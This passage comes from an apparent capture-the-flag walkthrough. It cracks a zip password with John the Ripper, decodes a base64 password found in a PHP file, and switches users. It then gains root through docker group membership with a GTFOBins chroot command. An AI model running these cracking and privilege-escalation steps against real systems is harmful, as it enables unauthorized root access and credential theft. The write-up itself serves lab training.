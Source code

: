 Now, we can use JTR to crack the hash,

```bash
john backup_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/67465230/187369369-22287bf5-fc5d-484f-af78-ac02331e9a1a.png)

Now, we can unzip this file by providing the password,

![image](https://user-images.githubusercontent.com/67465230/187369497-ea7a0c28-85da-45a1-86e2-f7da75b94315.png)
Data got extracted in source_code.php.

Reading the content of source_code.php file,

![image](https://user-images.githubusercontent.com/67465230/187369648-fc9062d7-a433-4c0d-9c72-9359b8ec50c2.png)
we got password encoded in base64.

We can actually decode this string to get the password,

```bash
echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
```

![image](https://user-images.githubusercontent.com/67465230/187369687-71f64bc7-1027-4ceb-9271-707fee89c70c.png)

Now, all that left is to switch to anurodh user,

```bash
su - anurodh
```

![image](https://user-images.githubusercontent.com/67465230/187369728-877bcead-0d39-4cd5-ac6e-9e3bb0b1f25b.png)

and we are member of **docker** group, result of `id` command.

Now, we can go to [Docker](https://gtfobins.github.io/gtfobins/docker/)
![image](https://user-images.githubusercontent.com/67465230/187369793-f9bed299-8606-4cec-9c69-2952b22ceddd.png)
we can escape the shell use this command. 

Let's try out,

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![image](https://user-images.githubusercontent.com/67465230/187369858-f8e195d6-a5fa-4b7e-ac21-92575b011f6e.png)
and we become root. Now, we can navigate to /root directory and grab our root flag.

Now, let's look on how to crack the hashes. Earlier, in the room I found the file named index.php.

![image](https://user-images.githubusercontent.com/67465230/187369888-25f55126-0b58-4841-a34f-58f948f43fe7.png)

Let's check the content of this file,

![image](https://user-images.githubusercontent.com/67465230/187369930-bea1b5fc-3183-4af3-bbc3-c7ef30dfb723.png)
